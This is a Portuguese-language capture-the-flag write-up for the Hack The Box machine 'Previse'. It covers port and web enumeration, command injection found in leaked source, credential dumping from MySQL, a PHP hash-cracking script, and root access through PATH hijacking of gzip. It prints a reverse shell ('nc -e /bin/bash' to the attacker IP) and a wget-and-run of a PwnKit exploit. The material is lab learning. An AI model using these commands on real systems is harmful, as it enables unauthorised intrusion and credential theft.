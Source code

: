Previse
========================

## Enumeration

    sudo nmap_enum previse.htb | tee nmap_output.txt
    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn previse.htb | tee nmap_udp_output.txt
    sudo nmap -p- -Pn -T5 -n previse.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-lxaOdJ](../../../media/qownnotes-media-lxaOdJ.png)

    nikto -host http://previse.htb -T x 6 | tee nikto_output.txt
 
 ![qownnotes-media-HjKUdj](../../../media/qownnotes-media-HjKUdj.png)
  
    sudo nmap -p- -Pn -T5 -n previse.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-oZwiit](../../../media/qownnotes-media-oZwiit.png)

    sudo nmap -sS --script vuln -n -T5 -Pn previse.htb -p 22,80 | tee nmap_vulns.txt

![qownnotes-media-mxzNhU](../../../media/qownnotes-media-mxzNhU.png)


    gobuster dir -u http://previse.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -t 16 -o "tcp_port_protocol_s_ext_gobuster.txt"

![qownnotes-media-kXDXCL](../../../media/qownnotes-media-kXDXCL.png)

    gobuster dir -u http://previse.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"

![qownnotes-media-hiNVri](../../../media/qownnotes-media-hiNVri.png)

Com base nisso, eu fiz uma requisição via curl e consigo ver o conteúdo da página:

    curl http://previse.htb/file_logs.php

![qownnotes-media-iLdcrS](../../../media/qownnotes-media-iLdcrS.png)

## Exploitation

Comecei a fazer com o burp e consegui enumerar um usuário:


![qownnotes-media-NdUWaQ](../../../media/qownnotes-media-NdUWaQ.png)


Até que usei de uma malícia pra conseguir acessar os recursos da aplicação sem estar autenticado:

![qownnotes-media-bSDibS](../../../media/qownnotes-media-bSDibS.png)

E comecei a frequentar as páginas da aplicação desta forma, dado que a resposta vinha, mesmo recebendo 302:

Na verdade eu criei um usuário na aplicação, porém, sem necessidade. Visto que não era necessário se autenticar para obter o código fonte da aplicação...

![qownnotes-media-pCeUBz](../../../media/qownnotes-media-pCeUBz.png)

Descomprimi esse cara:

![qownnotes-media-HKNfah](../../../media/qownnotes-media-HKNfah.png)

Depois fui analisar o código da aplicação e encontrei o entry point:

![qownnotes-media-RvwiQn](../../../media/qownnotes-media-RvwiQn.png)

Então notei que teria de fazer uma concatenação de comandos de SO para conseguir obter shell no servidor, porém, sem sucesso, pois a resposta do comando não retorna na página:

![qownnotes-media-UopzoA](../../../media/qownnotes-media-UopzoA.png)

E tentei com o intruder também com o seclists:

![qownnotes-media-pBDRwo](../../../media/qownnotes-media-pBDRwo.png)

Sem sucesso, até que fiz um teste básico para ver se estava conseguindo executar comandos na máquina da seguinte maneira:

    nc -nlvp 8081

![qownnotes-media-ORzpgK](../../../media/qownnotes-media-ORzpgK.png)

 e eu recebi a conexão:
 
 ![qownnotes-media-YGtlXk](../../../media/qownnotes-media-YGtlXk.png)

Então eu recebi essa conexão e fiz o comando funcionar:

![qownnotes-media-sPJWSH](../../../media/qownnotes-media-sPJWSH.png)

![qownnotes-media-QvIaGf](../../../media/qownnotes-media-QvIaGf.png)


## PrivEsc

### Cenario 1

Enumerate SUID
    
    find / -perm -u=s -type f 2>/dev/null

    wget http://10.10.14.13/4-privilege_escalation/PwnKit_comp
    
    chmod +x PwnKit_comp
    
    ./PwnKit_comp

![qownnotes-media-mkWgxR](../../../media/qownnotes-media-mkWgxR.png)

###  Cenario 2 (mais interessante)

Pegando o que eu consegui da base de dados do usuário m4lwhere

    id
    ls
    cat config.php

![qownnotes-media-BgyUDr](../../../media/qownnotes-media-BgyUDr.png)

    mysql -u root -p
    use previse
    show tables
    select * from accounts;

![qownnotes-media-scXRzj](../../../media/qownnotes-media-scXRzj.png)

Dai eu fui dar uma olhada no código pra ver como ele estava encryptando essa senha, mas na verdade é uma função de hash de senha que ele está usando:

![qownnotes-media-FQKJCj](../../../media/qownnotes-media-FQKJCj.png)

Então, com base nisso eu fiz um script para crackear a senha:

```
┌──(acosta㉿kali)-[~/owncloud/Area_de_trabalho/estudos/hack_the_box/previse]
└─$ cat decrypt.php                                                                                                 
<?php

$lines = file($argv[1]);

$u_input = readline('Enter the hash: ');

foreach ($lines as $line) {
        if (strcmp(crypt(trim($line), '$1$🧂llol$'), $u_input) == 0) {
                printf("your password is: ". $line."\n");
                exit();
        }
}
?>
```  

![qownnotes-media-HdTcGc](../../../media/qownnotes-media-HdTcGc.png)

Com essa senha já foi possível logar via ssh:

    ssh m4lwhere@previse.htb
    
![qownnotes-media-bfiLgJ](../../../media/qownnotes-media-bfiLgJ.png)


    sudo -l

Eu testei alguns exploits antes, mas não é necvessário reportá-los aqui... Vide que a técnica interessante aprendida aqui foi o lance de utilizar a variável PATH pra conseguir intertceptar o binário gzip (o qual está sendo executado dentro do script access_backup.sh)

    export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
 
 ![qownnotes-media-YKKdGG](../../../media/qownnotes-media-YKKdGG.png)

Dentro da pasta /tmp eu coloquei um arquivo chamado gzip com o seguinte conteúdo:

    #!/bin/bash
    
    nc -e /bin/bash 10.10.14.13 9003
 
 Voltando para o terminal, bastou executar o script cmo sudo:
 
     chmod +x /tmp/gzip
     sudo /opt/scripts/access_backup.sh
 
 
 Na máquina do atacante:
 
     nc -nlvp 9003
 
 ![qownnotes-media-pTJSoo](../../../media/qownnotes-media-pTJSoo.png)
